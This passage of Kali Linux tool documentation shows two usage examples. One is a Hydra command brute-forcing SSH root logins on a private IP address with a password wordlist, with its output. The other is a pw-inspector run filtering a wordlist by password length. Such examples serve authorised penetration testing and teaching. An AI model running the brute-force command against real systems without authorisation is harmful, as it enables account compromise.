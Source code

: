 ```
root@kali:~# hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://192.168.1.123
Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only

Hydra (http://www.thc.org/thc-hydra) starting at 2014-05-19 07:53:33
[DATA] 6 tasks, 1 server, 1003 login tries (l:1/p:1003), ~167 tries per task
[DATA] attacking service ssh on port 22
```

## pw-inspector Usage Example

Read in a list of passwords (`-i /usr/share/wordlists/nmap.lst`) and save to a file (`-o /root/passes.txt`), selecting passwords of a minimum length of 6 (`-m 6`) and a maximum length of 10 (`-M 10`):

```
root@kali:~# pw-inspector -i /usr/share/wordlists/nmap.lst -o /root/passes.txt -m 6 -M 10
root@kali:~# wc -l /usr/share/wordlists/nmap.lst
5086 /usr/share/wordlists/nmap.lst
root@kali:~# wc -l /root/passes.txt
4490 /root/passes.txt
```
